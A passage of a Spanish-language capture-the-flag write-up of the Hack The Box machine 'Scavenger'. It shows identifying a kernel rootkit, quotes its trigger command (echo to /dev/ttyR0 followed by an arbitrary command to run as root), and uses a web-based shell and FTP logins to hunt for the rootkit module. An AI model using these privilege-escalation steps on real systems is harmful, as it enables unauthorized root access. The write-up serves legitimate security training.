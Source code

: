 ![](/assets/images/HTB/htb-writeup-Scavenger/sca9.PNG)


Dentro del script, vemos una cadena `Got r00t`, que llama mucho la atención y podemos ponernos a pensar que se trata de un `rootkit` y si tratamos de investigar esa cadena del script, vemos un articulo que nos confirma que se trata de un `rootkit` y nos dice como podemos aprovecharnos de este.

* [https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485)


Basicamente lo que hace es cargar un modulo llamado `root.ko` y al enviar la cadena `echo "g0tR0ot" > /dev/ttyR0; comando`, esta lo ejecutara como `root`.

Probamos a ejecutar la cadena, pero vemos que lo ejecutamos como nuestro usuario, y esto quiero pensar que es debido a que si bien el proceso de `rootkit` es el mismo, la cadena debe de ser distinta.

```bash
❯ rlwrap python3 tty_over_http.py
echo "g0tR0ot" > /dev/ttyR0; whoami
> ib01c03
```

Por ello necesitamos encontrar el `root.ko` que en principio es el que carga el `rootkit`.

Si nos volvemos a conectar como el usuario `ib01c01`, y listamos los archivo ocultos vemos uno inusual `...` y si ingresamos al directorio encontramos el `root.ko`.

```bash
❯ ftp 10.10.10.155
Connected to 10.10.10.155.
220 (vsFTPd 3.0.3)
Name (10.10.10.155:fmiracle): ib01c01
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    4 1001     1004         4096 Sep 01  2021 .
drwxr-xr-x    8 0        0            4096 Dec 07  2018 ..
drwxr-xr-x    2 1001     1004         4096 Feb 02  2019 ...
lrwxrwxrwx    1 0        0               9 Sep 01  2021 .bash_history -> /dev/null
-rw-------    1 1001     1004           32 Jan 30  2019 access.txt
-rw-r--r--    1 1001     1004     68175351 Dec 07  2018 prestashop_1.7.4.4.zip
-rw-r-----    1 0        1004           33 Jun 24 00:10 user.txt
drwxr-xr-x   26 1001     1004         4096 Sep 01  2021 www
226 Directory send OK.
```